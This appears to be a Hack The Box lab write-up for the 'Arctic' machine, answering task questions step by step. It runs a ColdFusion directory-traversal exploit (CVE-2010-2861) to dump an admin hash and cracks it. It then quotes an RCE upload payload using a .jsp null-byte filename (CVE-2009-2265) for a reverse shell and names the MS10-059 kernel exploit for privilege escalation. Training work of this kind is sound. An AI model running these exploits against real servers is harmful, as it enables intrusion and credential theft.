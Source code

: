 ## Arctic 

### Lab Details 

- Difficulty: Easy 
- Type: Web, ColdFusion, Priv Esc, Windows 

#### Tasks
Q1: On what TCP port is there an HTTP server running?
- nmap `nmap -sT -T4 -vv -A -p- -oA Arctic 10.10.10.11`

Q2: What is the web application development platform in use by the site?
- upon landing we are greeted with  `http://10.10.10.11:8500/CFIDE/`
- searching CFIDE result in ColdFusion 

Q3: What is the 2010 CVE ID for a directory traversal vulnerability in enter.cfm?
- CVE-2010-2861, searched for coldfusion directory traversal
- we can fetch the exploit using searchsploit and running it will give us admin password hash
```
$: searchsploit -m multiple/remote/14641.py
  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
    Codes: CVE-2010-2861, OSVDB-67047
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/kali/Obsidian/WriteUps/Easy/Windows/Arctic/14641.py

$: python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties 
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/archives/index.cfm
title from server in /CFIDE/administrator/archives/index.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /cfide/install.cfm
title from server in /cfide/install.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/entman/index.cfm
title from server in /CFIDE/administrator/entman/index.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
trying /CFIDE/administrator/enter.cfm
title from server in /CFIDE/administrator/enter.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
```


Q4: Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?
- load up `msfconsole` and search for Windows and Recon 
- example below
```
msf6 > search type:post platform:windows path:multi/recon

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  post/multi/recon/multiport_egress_traffic                   normal  No     Generate TCP/UDP Outbound Traffic On Multiple Ports
   1  post/multi/recon/local_exploit_suggester                    normal  No     Multi Recon Local Exploit Suggester
   2  post/multi/recon/reverse_lookup                             normal  No     Reverse Lookup IP Addresses

```

Q5: What is the password for the ColdFusion admin login?
- the cold fusion running on the server is version 8, hashcat only offer version 10+
- tried online tools to crack unable to find the plaintext
- used john to crack the hash 
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash         
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 ASIMD 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)     
1g 0:00:00:00 DONE (2025-05-25 16:21) 16.66g/s 85266p/s 85266c/s 85266C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

Q6: What kind of file can be uploaded to work as a webshell on Arctic?
- tried searching for a exploit for RCE or file upload using searchsploit
- found exploit 50057.py and found the POC is uploading a file with .jsp file
- example below
```
$: searchsploit coldfusion
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
<snip>
Adobe ColdFusion 8 - Remote Command Execution (RCE)                         | cfm/webapps/50057.py
<snip>
---------------------------------------------------------------------------- ---------------------------------

$: searchsploit -m cfm/webapps/50057.py  
  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
    Codes: CVE-2009-2265
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/Obsidian/WriteUps/Easy/Windows/Arctic/50057.py

$: cat 50057.py
<snip>
# Create a request
    request = urllib.request.Request(f'http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00', data=data)
<snip>
```

Q7: What user is the webserver running as? Give the username without the domain.
- modified the script and running the script we get a reverse shell back as the user tolis
- can then use `type` to display the flag at C:/Users/tolis/Desktop/user.txt

Q8: Have any hotfixes been applied to this system?
- we can use `systeminfo` to gain info on hotfixes 
- output below
```
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          26/5/2025, 5:28:21 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 4.770 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 10.919 MB
Virtual Memory: In Use:    1.366 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```
- No hotfixs found 

Q10: Submit the flag located on the administrator's desktop.
- since no hotfixs found this machine is vulnerable to many kernel level exploits 
- we can try using MS10-059/Chimichurri, source of POC: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri
- download the complied POC and transfer to machine
- execute the exe -> root shell 

#### Lesson Learned
- if unable to crack with hashcat try john
- msfconsole search capabilities 

